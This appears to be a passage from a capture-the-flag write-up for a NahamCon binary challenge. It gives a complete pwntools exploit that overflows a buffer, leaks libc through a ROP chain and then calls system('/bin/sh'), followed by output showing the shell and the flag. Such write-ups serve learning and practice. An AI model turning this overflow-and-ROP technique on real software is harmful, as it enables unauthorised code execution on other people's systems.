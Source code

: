 The full exploit script ends up being
```python
libc = exe.libc
offset = 520
ret = 0x40101a
pop_rsi_pop_r15_mov_rdi_1 = 0x401251

io = start()
io.recvuntil(b">")

payload = b"A"*offset
payload += pack(ret)
payload += pack(pop_rsi_pop_r15_mov_rdi_1)
payload += pack(exe.got.write)
payload += pack(0x0)
payload += pack(exe.sym.write)
payload += pack(ret)
payload += pack(exe.sym.main)

io.send(payload)

leak = io.recvuntil(b">")[:-1].rstrip()
got_write = int(str(hex(unpack(leak[0:7].ljust(8, b"\x00"))))[:-2],16)
libc.address = got_write - libc.sym.write
log.success(f"Libc base @ {hex(libc.address)}")

rop = ROP(libc)
rop.raw(b"A"*offset)
rop.system(next(libc.search(b"/bin/sh\x00")))

io.send(rop.chain())
io.interactive()
```
{: .nolineno file="exploit.py" }

Which gives us shell and the flag

```bash
$ python3 exploit.py
[+] Opening connection to challenge.nahamcon.com on port 31727: Done
[*] Switching to interactive mode
$ cat flag.txt
flag{499c6288c77f297f4fd87db8e442e3f0}
```
{: .nolineno }